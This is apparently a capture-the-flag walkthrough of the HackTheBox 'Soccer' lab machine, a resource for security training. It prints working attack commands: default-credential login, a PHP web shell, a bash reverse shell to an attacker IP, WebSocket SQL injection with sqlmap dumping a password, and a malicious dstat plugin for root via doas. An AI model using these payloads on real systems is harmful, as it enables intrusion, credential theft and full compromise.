 +++
title = 'HackTheBox: Soccer Walkthrough'
date = '2025-10-02T00:00:00+00:00'
lastmod = '2025-10-02T00:00:00+00:00'
draft = false
description = 'Complete walkthrough of HackTheBox Soccer machine (10.10.11.194) covering reconnaissance, WebSocket SQL injection, and privilege escalation via doas/dstat'
summary = 'Exploit HackTheBox Soccer by chaining Tiny File Manager defaults, WebSocket SQL injection, and doas+dstat privilege escalation.'
keywords = ['hackthebox soccer', 'websocket sql injection', 'tiny file manager', 'doas privilege escalation', 'dstat exploitation', 'nginx virtual hosts']
tags = ['hackthebox', 'web-exploitation', 'websocket', 'sql-injection', 'privilege-escalation', 'doas']
categories = ['HackTheBox']
author = 'realspaceeagle'
+++

Soccer is a Linux machine that mixes classic web exploitation with modern twists such as WebSocket SQL injection and a doas-backed privilege escalation path. This post follows the exact notes I used during the engagement and includes the screenshots from my original write-up.

## Lab Preparation

```bash
# change into your working directory
cd /opt/htb/soccer

# connect to the HackTheBox VPN
sudo openvpn lab_Dream4ip.ovpn

# add the box to /etc/hosts
sudo tee -a /etc/hosts <<'EOF'
10.10.11.194 soccer.htb
EOF
```

A few helper aliases show up throughout the notes: `LPORT` references my attack box IP and `RPORT` the target. Keep them in mind when adapting the payloads.

## Reconnaissance

### Port Scanning

```bash
sudo nmap -sC -sV -oA nmap/soccer 10.10.11.194
nmap -p- -oA nmap/allports 10.10.11.194
sudo nmap -sU --min-rate 10000 -oA nmap/udp 10.10.11.194
```

The interesting hits were:

| Port | Service | Notes |
| --- | --- | --- |
| 22/tcp | OpenSSH 8.2p1 | standard Ubuntu banner |
| 80/tcp | nginx 1.18.0 | redirects to **soccer.htb** |
| 9091/tcp | HTTP API | responds with JSON errors and 404s |

## Enumerating soccer.htb

### Directory Bruteforce

```bash
gobuster dir -u http://soccer.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php
feroxbuster -u http://soccer.htb -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

The enumeration turns up `/tiny`, a deployment of **Tiny File Manager 2.4.3** that still accepts the default credentials (`admin : admin@123`).

![Tiny File Manager login](/images/htb-soccer/soccer-14.png)

Inside the panel we can upload arbitrary files into `/tiny/uploads/`.

### Reverse Shell Upload

```bash
# listener
rlwrap nc -nlvp 9001

# simple PHP dropper (uploaded as shell.php)
<?php system($_GET['cmd']); ?>

# trigger the payload
curl "http://soccer.htb/tiny/uploads/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/9001 0>&1'"
```

From the web shell we quickly upgrade to a full TTY using the usual combo:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

## Pivoting to soc-player.soccer.htb

While combing through nginx we find an additional virtual host definition.

```bash
cat /etc/nginx/sites-enabled/soc-player.htb
```

![soc-player virtual host configuration](/images/htb-soccer/soccer-13.png)

The site hosts a match stats portal that communicates over a WebSocket endpoint on port **9091**.

## Enumerating the WebSocket API

An unauthenticated request to `/check` exposes an account verification workflow. Replaying it with invalid data produces deterministic JSON responses and—critically for us—feeds directly into the back-end database query.

![Account verification request](/images/htb-soccer/soccer-12.png)

We can interact with the socket in real time:

```bash
wscat -c ws://soc-player.soccer.htb:9091/ws
{"id":"92130"}
```

![Testing the WebSocket](/images/htb-soccer/soccer-10.png)

The endpoint is vulnerable to SQL injection. Sending `{"id":"92130 or 5=1-- -"}` yields a different response, confirming Boolean-based injection.

![Boolean-based payload via WebSocket](/images/htb-soccer/soccer-09.png)

## Weaponising sqlmap over WebSockets

sqlmap can drive WebSocket traffic with the `-u ws://` syntax:

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --batch
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --level 5 --risk 3 --dbs
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' -D soccer_db -T users -C username,password --dump
```

![sqlmap identifying the backend](/images/htb-soccer/soccer-06.png)

Dumping the `users` table provides the `player` account password, `PlayerOftheMatch2022`.

```bash
sshpass -p 'PlayerOftheMatch2022' ssh player@10.10.11.194 -t bash
```

## Post-Exploitation Enumeration

With an interactive shell we sweep for privilege escalation paths:

```bash
find / -maxdepth 3 -name 'doas*' 2>/dev/null
find / -group player 2>/dev/null | grep -v '^/proc\|^/run\|^/sys'
cat /usr/local/etc/doas.conf
```

![Writable dstat plugin directory](/images/htb-soccer/soccer-07.png)

The doas policy allows `player` to run `/usr/bin/dstat` as root without a password. The plugin directory `/usr/local/share/dstat` is group-writable by `player`, which opens the door for a Python plugin backdoor.

## Privilege Escalation via dstat Plugins

Create a malicious plugin, then execute dstat through doas:

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py
doas /usr/bin/dstat --xxx
```

![Executing the malicious dstat plugin](/images/htb-soccer/soccer-08.png)

Alternative (user-local) approach:

```bash
mkdir -p ~/.dstat
echo 'import os; os.execv("/bin/sh", ["sh"])' > ~/.dstat/dstat_xxx.py
dstat --xxx
```

Either method drops us into a root shell:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
```

## Cheatsheet Updates

Key commands and payloads from this run were added to:

- **SQL Injection Cheatsheet** – WebSocket-based sqlmap usage and Boolean probes.
- **Linux Privilege Escalation Cheatsheet** – doas / dstat plugin workflow.

## Lessons Learned

1. **Modern protocols need love** – Treat WebSocket endpoints exactly as you would REST APIs; interception tools and automation now support them.
2. **Default credentials still bite** – Tiny File Manager ships with admin/admin@123. Changing defaults is table stakes.
3. **Least privilege on helper binaries** – Granting blanket access to `dstat` with writeable plugin paths hands over root.
4. **Automate but verify** – sqlmap handled the socket payloads, but manual validation with `wscat` saved time and confirmed behavior.

## Useful Commands Reference

```bash
# Quick recon one-liners
nmap -sV -sC -p 22,80,9091 10.10.11.194
find / -group player 2>/dev/null | grep -v '^/proc\|^/run\|^/sys'

# WebSocket probing
wscat -c ws://soc-player.soccer.htb:9091/ws
{"id":"92130 or 5=1-- -"}

# sqlmap over WebSocket
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --batch

# doas + dstat privesc
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py
doas /usr/bin/dstat --xxx
```
